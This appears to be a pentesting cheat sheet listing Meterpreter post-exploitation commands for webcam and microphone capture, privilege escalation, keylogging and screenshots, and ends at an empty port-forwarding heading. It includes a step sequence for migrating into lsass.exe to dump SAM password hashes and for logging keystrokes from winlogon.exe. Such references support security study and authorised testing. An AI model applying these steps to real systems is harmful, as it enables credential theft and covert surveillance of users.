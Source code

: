 ### Webcam Commands

The webcam commands interact with the video and audio devices of the target system. These commands can list present webcams, record the webcam and microphone and take snapshots from the webcam.

- **record_mic**: Record audio from the default microphone for X seconds.
- **webcam_chat**: Start a video chat.
- **webcam_list**: List webcams.
- **webcam_snap**: Take a snapshot from the specified webcam.
- **webcam_stream**: Play a video stream from the specified webcam.

### Privilege Escalation Commands

The privilege escalation commands are used for privilege escalation purposes, such as dumping the SAM table and performing different methods to gain system privileges:

- **getsystem**: Uses 15 built-in methods to gain sysadmin privileges.
- **hashdump**: Grabs the hashes in the password (SAM) file.
- **timestamp**: Manipulates the modify, access, and create attributes of a file.

### Meterpreter Commands

`sysinfo` - useful information about the target. 
`getuid` - Username of the current process meterpreter is embedded in
`show_mount` - Shows any connected shares, physical / networked
`idletime` - Total time the user has been inactive
`shell` - Access the command prompt of the host - creates a new process
:exclamation: - If `sh` is not available, you can run `execute -i -f /system/bin/sh`
`ps` - Lists all running processes
`migrate` - Switches the process to another - used for stability or privilege level
`search` - Searches the filesystem for specific terms
`pwd` - present directory on target
`lpwd` - working directory on the local host controlling meterpreter
`upload` - uploads a <file> to the <target path>
`getsystem` - Attempts number of methods to gain admin privileges on remote host
`hashdump` - Dumps contents of the SAM database; meterpreter must reside in a process with SYSTEM privs

> Migrate to lsass.exe which has sys-privileges 
> ps - to list processes
> migrate [lsass PID]
> hashdump

### Recording Keystrokes and Screenshots

`keyscan_start` to record all keystrokes in the process that metepreter resides in. 
If we want to record keystrokes of a user that logs onto the remote machine, we can migrate meterpreter to the winlogon.exe process. 
`keyscan_stop` - stops recording
`keyscan_dump` - dumps recorded keystrokes
`screenshot` - takes a screenshot of the desktop  

### Port forwarding
